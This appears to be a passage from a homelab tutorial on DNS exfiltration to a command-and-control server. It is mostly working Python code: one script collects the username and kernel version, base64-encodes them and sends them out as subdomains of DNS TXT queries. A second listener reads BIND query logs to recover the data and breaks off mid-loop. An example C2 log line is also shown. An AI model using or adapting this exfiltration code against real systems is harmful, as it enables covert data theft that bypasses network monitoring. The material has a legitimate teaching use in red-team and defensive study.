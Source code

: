 ``` python
def base64_encode(data):
    # base64 encoding requires input data as bytes
    if not isinstance(data, bytes):
       data = data.encode("utf-8")
    data = base64.b64encode(data)
    return data.decode("utf-8").strip()

def run_command(commands):
    # process commands and return stdout as bytes
    return subprocess.run(commands, capture_output=True).stdout

# Extract
import subprocess
raw_username = run_command("whoami")
raw_system_info = run_command(["uname", "-r"])

# Encode
import base64
encoded_username = base64_encode(raw_username)
encoded_system_info = base64_encode(raw_system_info)

# Exfiltrate
import dns.resolver
domain = ".homelab.local" # change this to suit your needs
encoded_message = f"{encoded_username}.{encoded_system_info}" + domain
try:
    dns.resolver.resolve(encoded_message, 'TXT')
except:
    # pass to ignore errors when resolving domains
    # -- errors will occur because the domains are non-existent
    pass
```

When the script above is run your C2 server should receive a log that looks similar to this:
```
client @0x77042c1ca578 192.168.1.182#55499 (YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local): query: YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local IN TXT +E(0) (192.168.1.155)
```

Notice how the query contains two obfuscated strings; `YWxleAo=` and `Ni4xNC4xMC1hcmNoMS0xCg==`. What we've done here is queried `homelab.local` but included the exfiltrated and encoded data as two additional subdomains. In doing this the C2 server has managed to log the query despite the fact that the domain does not exist. This is exactly how we will harness this exfiltration technique - we just need to make a listener that can decode the logs for us.

``` python
import re
import time
import base64

dns_log_file = "/var/log/named/query.log"

with open(dns_log_file, "r") as file:
    file.seek(0,2) # move to end of file
    while True:
        message = []
        line = file.readline()
        if line:
            line = line.strip()
            match = re.search(r'query: ([^\s]+)', line)
            if match:
                query = match.group(1)
                split_query = query.split('.')
                for section in split_query:
                    if section == "homelab" or section == "local":
```